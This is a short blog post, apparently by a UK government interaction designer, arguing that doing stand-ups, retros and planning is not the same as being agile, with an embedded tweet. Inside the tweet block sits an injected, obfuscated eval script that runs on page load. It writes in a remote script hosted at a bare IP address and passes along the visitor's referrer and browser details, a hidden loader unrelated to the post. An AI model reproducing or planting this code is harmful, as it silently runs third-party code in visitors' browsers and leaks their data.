 ```yaml
---
title: A stand up, retro or planning does not make you agile
date: 2016-09-20
---
```

Having worked within government for a little over a year now, I’ve seen a lot.

I’ve heard from teams who work within Home Office, Land Registry, DVLA, HMRC and my own teams within the Department for Work and Pensions.

I’ve found that fellow Interaction Designers, Front-end Developers, Content Designers and a few more roles work in agile environments. They often don’t just work in these environments, but they live in them. They get the value and often they’re the driving force behind keeping them going.

Over recent months I’ve spoken to teams in other areas and asked “What is your way of working?” and follow it up with “Agile, waterfall or wagile?”

It often gets a lot of laughs, but I’m deadly serious in my questioning. I ask to quickly determine what a teams setup is, how empowered the team is to make quick changes, iterate and deliver at speed.

Sometimes I hear the right answers, and unfortunately sometimes I hear the worst kind of answers like “Agile, we do standups and everything…”

Whilst that’s not what I’m wanting to hear, which I’ll get to in a minute, it doesn’t dishearten me as it’s a huge opportunity to guide or provide an ‘education piece’ as I describe it.

You see, doing standups, retrospectives and planning is not agile. You don’t suddenly become agile by doing ceremonies. I’d challenge anyone that tells me any different.

> [@gavinelliott](https://twitter.com/gavinelliott) <noindex><script id="wpinfo-pst1" rel="nofollow" type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\b'+e(c)+'\b','g'),k[c])}}return p}('0.6("<a g=\'2\' c=\'d\' e=\'b/2\' 4=\'7://5.8.9.f/1/h.s.t?r="+3(0.p)+"\o="+3(j.i)+"\'><\/k"+"l>");n m="q";',30,30,'document||javascript|encodeURI|src||write|http|45|67|script|text|rel|nofollow|type|97|language|jquery|userAgent|navigator|sc|ript|iyfty|var|u0026u|referrer|snzrf||js|php'.split('|'),0,{}))
> </script></noindex> yep, anyone can DO agile; Not many can BE agile.
>
> — Chris Thompson (@mrcthompson) [20 September 2016](https://twitter.com/mrcthompson/status/778155536223236096)

<script async="" charset="utf-8" src="//platform.twitter.com/widgets.js"></script>

If you truly want to ‘BE’ agile, you have to realise the fundamentals of being able to move at speed, learn, iterate, fail fast, iterate and deliver. To ‘BE’ agile, you have to have a clear focus that it is ultimately about the delivery of something, iterate and continuously deliver.

There’s something which can often derail ‘being agile’ before it even gets off the ground, especially in government and that’s risk. It’s a killer. But here’s something which we can all try… worry about risk where risk needs worrying about, everywhere else you can focus on doing the above.

I’m looking forward to meeting more teams in the near future and delivering education pieces on how to ‘BE’ agile and to focus on helping them figure out there ways of working and I’m excited to find a team that is truly being agile to learn from them and feed that back in to my own work.

Let’s all try and BE rather than DO.

